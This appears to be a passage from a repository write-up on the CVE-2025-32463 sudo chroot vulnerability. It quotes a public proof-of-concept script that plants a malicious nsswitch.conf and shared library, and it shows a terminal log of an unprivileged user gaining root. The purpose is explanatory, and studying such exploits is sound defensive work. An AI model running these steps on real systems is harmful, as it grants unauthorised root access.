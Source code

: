 Below is an excerpt of the public **proof of concept (PoC)** to help explain the conditions needed for exploitation:

```bash
# ... (setup for stage directory, nsswitch.conf, and woot1337.c compilation) ...

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc # Copying /etc/group is important for nss lookups

# Compile the malicious shared object
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot # This command triggers the vulnerability
rm -rf ${STAGE?}
```

When `sudo -R woot woot` is executed, `sudo`, in its attempt to perform command matching within the context of the `woot` directory (which acts as the `chroot`), reads the malicious `nsswitch.conf`. This configuration instructs NSS to load `libnss_/woot1337.so.2` from the attacker-controlled environment. Upon loading, the `woot` constructor function in the malicious library executes, resulting in arbitrary code execution as `root`.

The provided example below (from the [Stratascale research](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)) shows an unprivileged user, `lowpriv`, gaining a root shell on an **Ubuntu 24.04.2 LTS server** with **sudo v1.9.15p5**. It demonstrates how a user with no `sudo` rules defined can still achieve root privileges by exploiting this `chroot` vulnerability, bypassing normal privilege checks.

```bash
lowpriv@prod:~/CVE-2025-32463$ id
uid=1001(lowpriv) gid=1001(lowpriv) groups=1001(lowpriv)

lowpriv@prod:~/CVE-2025-32463$ sudo -l
[sudo] password for lowpriv:
Sorry, user lowpriv may not run sudo on prod.

lowpriv@prod:~/CVE-2025-32463$ ./sudo-chwoot.sh
woot!

root@prod:/# id
uid=0(root) gid=0(root) groups=0(root),1001(lowpriv)
```

### 🧪 PoC - Proof of concept

The code block below shows the [proof of concept (PoC) demonstration script provided by the researchers at Stratascale](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot).

![Exploit-CVE-2025-32463](assets/img/Exploit-CVE-2025-32463.png)
